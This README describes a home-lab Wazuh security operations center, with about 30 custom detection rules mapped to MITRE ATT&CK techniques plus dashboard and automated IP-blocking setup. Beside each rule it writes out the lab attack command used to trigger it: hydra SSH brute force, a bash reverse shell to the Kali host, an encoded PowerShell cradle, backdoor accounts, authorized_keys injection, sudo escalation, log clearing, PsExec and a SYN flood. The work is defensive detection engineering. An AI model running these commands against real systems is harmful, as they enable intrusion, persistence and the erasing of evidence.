# Wazuh Mini-SOC

A self-contained Security Operations Center built on Wazuh, detecting attacker behaviour
across the MITRE ATT&CK matrix, correlating multi-stage attacks, visualizing alerts in
Kibana, and automatically containing network-based threats through active response.

## Lab Architecture

Four VMs on a shared VMware NAT network:
- **Kali Linux** — attacker machine, no agent installed
- **Ubuntu (Wazuh manager)** — single-node all-in-one install (manager + indexer + dashboard)
- **Ubuntu agent** — monitored Linux endpoint (auth logs, auditd, FIM)
- **Windows agent** — monitored Windows endpoint (Sysmon, Security event log, FIM)



### Log Source Setup

Linux: authentication events via the system auth log, process execution visibility via `auditd`.




Windows: Sysmon for detailed process/system event logging, plus the native Security event
channel for authentication and process creation.







FIM is configured on both endpoints with real-time monitoring enabled.






## Detection Rules

30 custom rules across 8 MITRE ATT&CK tactics, each validated against a real,
reproducible attack simulation.

### Initial Access / Credential Access

**Rule 100010 — SSH Brute Force (T1110.001)**
Fires on 5+ failed SSH logins from the same source IP within a 2-minute window.

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://<linux-agent-ip> -t 4
```

```xml
<rule id="100010" level="10" frequency="5" timeframe="120">
  <if_matched_sid>5716</if_matched_sid>
  <same_source_ip />
  <description>SSH brute force: 5+ failed logins from same source in 2 minutes</description>
  <mitre><id>T1110.001</id></mitre>
  <group>authentication_failures,mitre_t1110,</group>
</rule>
```






---

**Rule 100011 — Compromised Credential (T1078)**
Fires on a brute-force pattern followed by a successful login from the same source IP.

```bash
ssh root@<linux-agent-ip>
```

```xml
<rule id="100011" level="12" frequency="4" timeframe="120">
  <if_sid>5715</if_sid>
  <if_matched_sid>5716</if_matched_sid>
  <same_source_ip />
  <description>Possible compromised credential: brute force followed by successful login from same IP</description>
  <mitre><id>T1078</id></mitre>
  <group>authentication_success,mitre_t1078,correlation_stage1,</group>
</rule>
```





---

**Rule 100012 — Windows Logon Brute Force (T1110)**
Applies the same brute-force logic to Windows logon failures, triggered locally via a
PowerShell credential validation loop since inbound network traffic was blocked by the
host firewall.

```xml
<rule id="100012" level="10" frequency="5" timeframe="120">
  <if_matched_sid>60122</if_matched_sid>
  <description>Windows brute force detected: 5+ failed login events inside 2 minutes</description>
  <mitre><id>T1110</id></mitre>
  <group>authentication_failures,mitre_t1110,</group>
</rule>
```


---

**Rules 100013/100014 — Web Application Brute Force (T1110)**
`100013` overrides Wazuh's default "Ignored URLs" drop so login-failure logs aren't
silently discarded before reaching custom rules; `100014` does the actual frequency count.
Tested against a controlled mock access log.

```bash
for i in {1..7}; do
  echo '192.168.233.129 - - [...] "POST /login.php HTTP/1.1" 200 4510 "STATUS: failed login"' \
    >> /var/log/mock_web_access.log
  sleep 0.2
done
```

```xml
<rule id="100013" level="3">
  <if_sid>31108</if_sid>
  <match>failed login</match>
  <description>Web application login failure log</description>
</rule>

<rule id="100014" level="8" frequency="5" timeframe="120">
  <if_matched_sid>100013</if_matched_sid>
  <description>Web application brute force detected</description>
  <mitre><id>T1110</id></mitre>
  <group>web,mitre_t1110,</group>
</rule>
```




### Execution

**Rule 100020 — Suspicious Process from Office/Browser (T1059)**
Flags a child process (e.g. a command shell) spawned from an Office app or browser,
detected via native Windows Event 4688.

```powershell
Copy-Item "C:\Windows\System32\cmd.exe" "C:\Users\DELL\Downloads\Sysmon\TestDrop\msedge.exe" -Force
& "C:\Users\DELL\Downloads\Sysmon\TestDrop\msedge.exe" /c "cmd.exe /c echo test"
```

```xml
<rule id="100020" level="12">
  <if_sid>67027</if_sid>
  <field name="win.eventdata.parentProcessName" type="pcre2">(?i)winword\.exe|excel\.exe|outlook\.exe|chrome\.exe|firefox\.exe|msedge\.exe</field>
  <field name="win.eventdata.newProcessName" type="pcre2">(?i)cmd\.exe|powershell\.exe</field>
  <description>Suspicious child process spawned from Office application or browser</description>
  <mitre><id>T1059</id></mitre>
  <group>windows,mitre_t1059,</group>
</rule>
```




---

**Rule 100021 — Encoded PowerShell Command (T1059.001)**

```powershell
powershell.exe -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkA...
```

```xml
<rule id="100021" level="12">
  <if_sid>67027</if_sid>
  <field name="win.eventdata.newProcessName" type="pcre2">(?i)powershell\.exe</field>
  <field name="win.eventdata.commandLine" type="pcre2">(?i)-enc |-EncodedCommand</field>
  <description>PowerShell executed with encoded command flag</description>
  <mitre><id>T1059.001</id></mitre>
  <group>windows,mitre_t1059_001,</group>
</rule>
```




---

**Rule 100022 — Reverse Shell (T1059.004)**
Detected via `auditd`'s execve syscall tracking.

```bash
bash -i >& /dev/tcp/<kali-ip>/4444 0>&1
```

```xml
<rule id="100022" level="13">
  <if_group>audit_command</if_group>
  <field name="audit.execve.a0" type="pcre2">(?i)^(/bin/|/usr/bin/)?(sh|bash|nc|ncat)$</field>
  <description>Possible reverse shell command executed</description>
  <mitre><id>T1059.004</id></mitre>
  <group>audit,mitre_t1059_004,</group>
</rule>
```




### Persistence

**Rule 100023 — Cron Job Created/Modified (T1053.003)**

```bash
echo "* * * * * root touch /tmp/test" | sudo tee -a /etc/cron.d/testjob
```

```xml
<rule id="100023" level="9">
  <if_sid>550,554</if_sid>
  <field name="file">^/etc/cron|^/var/spool/cron</field>
  <description>Cron job file created or modified unexpectedly</description>
  <mitre><id>T1053.003</id></mitre>
  <group>syscheck,mitre_t1053_003,</group>
</rule>
```




---

**Rule 100030 — New Linux User (T1136)**

```bash
sudo useradd testbackdoor
```

```xml
<rule id="100030" level="9">
  <if_group>syslog</if_group>
  <match>new user</match>
  <description>New local user account created (Linux)</description>
  <mitre><id>T1136.001</id></mitre>
  <group>account_changed,mitre_t1136,correlation_stage1,</group>
</rule>
```




---

**Rule 100031 — New Windows User (T1136)**

```powershell
net user backdoor Passw0rd! /add
```

```xml
<rule id="100031" level="9">
  <if_group>windows</if_group>
  <field name="win.system.eventID">^4720$</field>
  <description>New user account created (Windows)</description>
  <mitre><id>T1136.001</id></mitre>
  <group>account_changed,mitre_t1136,correlation_stage1,</group>
</rule>
```




---

**Rule 100032 — SSH authorized_keys Modified (T1098.004)**

```bash
echo "ssh-rsa AAAAB3fake attacker@kali" >> ~/.ssh/authorized_keys
```

```xml
<rule id="100032" level="12">
  <if_sid>550,554</if_sid>
  <field name="file">authorized_keys</field>
  <description>SSH authorized_keys file modified — possible persistence via key injection</description>
  <mitre><id>T1098.004</id></mitre>
  <group>syscheck,mitre_t1098_004,</group>
</rule>
```




---

**Rule 100033 — New Scheduled Task (T1053.005)**
Nested directly under Wazuh's built-in rule for Event 4698.

```powershell
Register-ScheduledTask -TaskName "WazuhLiveTest" -Action (New-ScheduledTaskAction -Execute "notepad.exe")
```

```xml
<rule id="100033" level="9">
  <if_sid>60228</if_sid>
  <description>Windows Security: A new scheduled task was created (Potential Persistence)</description>
  <mitre><id>T1053.005</id></mitre>
  <group>windows,mitre_t1053_005,</group>
</rule>
```




---

**Rule 100034 — Registry Run Key Modified (T1547.001)**
Nested under Wazuh's built-in Sysmon Event 13 rule. Validated using Atomic Red Team.

```powershell
Invoke-AtomicTest T1547.001 -TestNumbers 1 -PathToAtomicsFolder "C:\AtomicRedTeam\atomic-red-team\atomics"
```

```xml
<rule id="100034" level="12">
  <if_sid>92302</if_sid>
  <description>Registry Run key modified — possible persistence</description>
  <mitre><id>T1547.001</id></mitre>
  <group>sysmon,mitre_t1547_001,persistence</group>
</rule>
```




### Privilege Escalation

**Rule 100040 — GTFOBins Sudo Abuse (T1548.003)**

```bash
sudo find . -exec /bin/sh \; -quit
```

```xml
<rule id="100040" level="11">
  <if_group>sudo</if_group>
  <match>COMMAND=/usr/bin/vi|COMMAND=/usr/bin/python|COMMAND=/usr/bin/find|COMMAND=/usr/bin/awk|COMMAND=/usr/bin/less</match>
  <description>Sudo used to run a binary commonly abused for privilege escalation (GTFOBins)</description>
  <mitre><id>T1548.003</id></mitre>
  <group>privilege_escalation,mitre_t1548_003,</group>
</rule>
```




---

**Rule 100041 — User Added to Sudo Group (T1078.003)**
Nested under Wazuh's built-in "successful sudo to root" rule, matching the real `command` field.

```bash
sudo usermod -aG sudo testbackdoor
```

```xml
<rule id="100041" level="12">
  <if_sid>5402</if_sid>
  <field name="command" type="pcre2">(?i)usermod\s+-aG\s+sudo|gpasswd\s+-a\s+\S+\s+sudo|adduser\s+\S+\s+sudo</field>
  <description>User added to sudo group</description>
  <mitre><id>T1078.003</id></mitre>
  <group>mitre_t1078_003,</group>
</rule>
```




### Defense Evasion

**Rule 100050 — Linux Auth Log Cleared (T1070.001)**

```bash
sudo truncate -s 0 /var/log/auth.log
```

```xml
<rule id="100050" level="13">
  <if_sid>550,554</if_sid>
  <field name="file">^/var/log/auth\.log$</field>
  <description>Authentication log file modified/truncated — possible log tampering</description>
  <mitre><id>T1070.001</id></mitre>
  <group>syscheck,mitre_t1070_001,</group>
</rule>
```




---

**Rule 100051 — Windows Security Log Cleared (T1070.001)**

```powershell
wevtutil cl Security
```

```xml
<rule id="100051" level="13">
  <if_group>windows</if_group>
  <field name="win.system.eventID">^1102$</field>
  <description>Windows security audit log cleared</description>
  <mitre><id>T1070.001</id></mitre>
  <group>mitre_t1070_001,</group>
</rule>
```




---

**Rule 100052 — Wazuh Agent Disconnected (T1562.001)**

```bash
sudo systemctl stop wazuh-agent
```

```xml
<rule id="100052" level="10">
  <if_sid>502</if_sid>
  <description>Wazuh agent disconnected — possible tampering or evasion attempt</description>
  <mitre><id>T1562.001</id></mitre>
  <group>mitre_t1562_001,</group>
</rule>
```



### Discovery / Lateral Movement

**Rules 100059/100060 — UFW Block / Port Scan (T1046)**
`100059` fires on every individual blocked connection; `100060` correlates 10+ blocks from
the same source IP within 30 seconds into a port-scan alert.

```bash
nmap -sS -p- -T4 --min-rate 500 --max-retries 1 <linux-agent-ip>
```

```xml
<rule id="100059" level="3">
  <decoded_as>kernel</decoded_as>
  <match>UFW BLOCK</match>
  <description>UFW blocked connection attempt</description>
  <group>ufw_scan_detection,</group>
</rule>

<rule id="100060" level="8" frequency="10" timeframe="30">
  <if_matched_sid>100059</if_matched_sid>
  <same_source_ip />
  <description>Possible port scan: high volume of connection attempts from single source</description>
  <mitre><id>T1046</id></mitre>
  <group>mitre_t1046,firewall,</group>
</rule>
```






---

**Rule 100061 — Enumeration Commands (T1082)**
Fires on 3+ recon commands (`whoami`, `id`, `uname`, `ifconfig`) from the same agent within 60s.

```bash
whoami; id; uname -a; ifconfig
```

```xml
<rule id="100061" level="10" frequency="3" timeframe="60">
  <if_matched_group>audit_command</if_matched_group>
  <field name="audit.execve.a0" type="pcre2">^(whoami|id|uname|ifconfig|ip)$</field>
  <description>Sequence of discovery/enumeration commands executed in short window</description>
  <mitre><id>T1082</id></mitre>
  <group>audit,mitre_t1082,</group>
</rule>
```




---

**Rule 100070 — SSH from Unrecognized IP (T1021.004)**
Checks source IP against a CDB allow-list of known SSH sources.

```bash
ssh firas@<linux-agent-ip>
```

```xml
<rule id="100070" level="9">
  <if_sid>5715</if_sid>
  <list field="srcip" lookup="not_match_key">etc/lists/known-ssh-ips</list>
  <description>SSH login from an unrecognized internal IP</description>
  <mitre><id>T1021.004</id></mitre>
  <group>mitre_t1021_004,</group>
</rule>
```




---

**Rule 100071 — PsExec / Admin Share Execution (T1021.002)**
Nested under Wazuh's built-in rule for a service dropped via an admin share.

```bash
impacket-psexec <local-admin-username>:<password>@<windows-agent-ip>
```

```xml
<rule id="100071" level="12">
  <if_sid>92650</if_sid>
  <description>PsExec or admin-share service execution detected — possible lateral movement</description>
  <mitre><id>T1021.002</id></mitre>
  <group>sysmon,mitre_t1021_002,lateral_movement</group>
</rule>
```




### Command and Control / Impact

**Rule 100080 — Outbound C2 Connection (T1041)**

```powershell
Test-NetConnection -ComputerName <kali-ip> -Port 4444
```

```xml
<rule id="100080" level="9">
  <if_group>sysmon</if_group>
  <field name="win.system.eventID">^3$</field>
  <field name="win.eventdata.destinationPort">^4444$|^1337$|^8080$</field>
  <description>Outbound connection to commonly-abused C2 port</description>
  <mitre><id>T1041</id></mitre>
  <group>sysmon,mitre_t1041,</group>
</rule>
```




---

**Rule 100081 — DoS/DDoS Flood (T1498)**

```bash
sudo hping3 -S -p 80 --flood <linux-agent-ip>
```

```xml
<rule id="100081" level="10" frequency="8" timeframe="10">
  <if_matched_sid>100059</if_matched_sid>
  <same_source_ip />
  <description>Possible DoS/DDoS: high volume of connection attempts from a single source</description>
  <mitre><id>T1498</id></mitre>
  <group>mitre_t1498,</group>
</rule>
```




### Multi-Stage Correlation

**Rule 100090 — Brute Force Compromise → New Account (T1078 + T1136)**
Correlates rules 100011, 100030, and 100031 (each tagged `correlation_stage1`) — fires
when 2 hits from that shared group land within a 10-minute window.

```bash
sudo useradd testbackdoor
```

```xml
<rule id="100090" level="14" frequency="2" timeframe="600">
  <if_matched_group>correlation_stage1</if_matched_group>
  <description>CRITICAL: SSH brute force compromise followed by new account creation — likely active intrusion</description>
  <mitre><id>T1078</id><id>T1136</id></mitre>
  <group>mitre_t1078,mitre_t1136,correlation,</group>
</rule>
```




---

**Rule 100091 — Port Scan → Brute Force (T1046 + T1110)**

```bash
nmap -sS -p- <target>
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://<target> -t 4
```

```xml
<rule id="100091" level="13" frequency="1" timeframe="300">
  <if_matched_sid>100060</if_matched_sid>
  <if_sid>100010</if_sid>
  <same_source_ip />
  <description>Reconnaissance followed by brute force attack from same source — likely coordinated attack</description>
  <mitre><id>T1046</id><id>T1110</id></mitre>
  <group>mitre_t1046,mitre_t1110,correlation,</group>
</rule>
```




## Rule Catalog Summary

| Rule ID     | MITRE ID     | Tactic                     | Description                          |
|-------------|--------------|-----------------------------|---------------------------------------|
| 100010      | T1110.001    | Credential Access           | SSH brute force                       |
| 100011      | T1078        | Initial Access              | Compromised credential                |
| 100012      | T1110        | Credential Access           | Windows logon brute force             |
| 100013/14   | T1110        | Credential Access           | Web login brute force                 |
| 100020      | T1059        | Execution                   | Suspicious process from Office/browser|
| 100021      | T1059.001    | Execution                   | PowerShell encoded command            |
| 100022      | T1059.004    | Execution                   | Reverse shell                         |
| 100023      | T1053.003    | Persistence                 | Cron job created/modified             |
| 100030      | T1136        | Persistence                 | New Linux user                        |
| 100031      | T1136        | Persistence                 | New Windows user                      |
| 100032      | T1098.004    | Persistence                 | authorized_keys modified              |
| 100033      | T1053.005    | Persistence                 | New scheduled task                    |
| 100034      | T1547.001    | Persistence                 | Registry Run key modified             |
| 100040      | T1548.003    | Privilege Escalation        | Sudo on GTFOBins binary               |
| 100041      | T1078.003    | Privilege Escalation        | User added to sudo group              |
| 100050      | T1070.001    | Defense Evasion             | Linux auth log cleared                |
| 100051      | T1070.001    | Defense Evasion             | Windows security log cleared          |
| 100052      | T1562.001    | Defense Evasion             | Agent disconnected                    |
| 100059/60   | T1046        | Discovery                   | Port scan                             |
| 100061      | T1082        | Discovery                   | Enumeration commands                  |
| 100070      | T1021.004    | Lateral Movement            | SSH from unrecognized IP              |
| 100071      | T1021.002    | Lateral Movement            | PsExec / admin share                  |
| 100080      | T1041        | Exfiltration                | Outbound C2 connection                |
| 100081      | T1498        | Impact                      | DoS/DDoS flood                        |
| 100090      | T1078/T1136  | Init. Access / Persistence  | Correlation: compromise + new account |
| 100091      | T1046/T1110  | Discovery / Cred. Access    | Correlation: scan + brute force       |

## Dashboard

Custom Kibana dashboard built on the `wazuh-alerts-*` index, combining an alert volume
timeline, top attacker source IPs, alert distribution by MITRE tactic, and top triggered
rules paired with their MITRE technique ID.






Dashboard export available at [`dashboards/mini-soc-dashboard-export.ndjson`](dashboards/mini-soc-dashboard-export.ndjson).

## Active Response — Automated IP Blocking

Rules 100010 (SSH brute force), 100060 (port scan), and 100081 (DoS flood) are wired to
Wazuh's `firewall-drop` command — the only three rules confirmed to carry a genuine,
attacker-controlled source IP via `same_source_ip`. Block timeout: 600 seconds.

```xml
<active-response>
  <disabled>no</disabled>
  <command>firewall-drop-ssh</command>
  <location>local</location>
  <rules_id>100010,100060,100081</rules_id>
  <timeout>600</timeout>
</active-response>
```

The full block → timeout → unblock cycle was validated live against a real SSH
brute-force attack, confirmed through Wazuh's internal alert log (rule 651 "Host Blocked"
/ rule 652 "Host Unblocked") and cross-checked against the manager's live firewall rules.




## Known Limitations

- Validated in a controlled virtual lab, not representative of production traffic volume.
- The web application brute-force rule was tested against a controlled mock access log
  rather than a live web app.
- The Windows brute-force rule was triggered locally via PowerShell rather than a real
  network-based attack, since inbound traffic was blocked by the host firewall.
- Active response was intentionally limited to rules 100010, 100060, and 100081 — the
  only rules with reliable source-IP attribution.
- Correlation rule 100090 counts any 2 hits from its shared detection group within the
  window rather than strictly enforcing stage-1-then-stage-2 ordering or same-source
  attribution — a known and accepted trade-off, not treated as airtight.
- Rule 100012 (Windows brute force) has no `same_source_ip` filter due to IPv6
  link-local zone-identifier behavior on loopback tests — it tracks raw failure volume,
  not volume-from-one-source.

## Future Work

- Threat intelligence enrichment (AbuseIPDB / VirusTotal lookups on alert source IPs)
- Suricata integration for network-level detection
- SOAR integration for more advanced automated response
- Deployment testing on larger, more realistic infrastructure
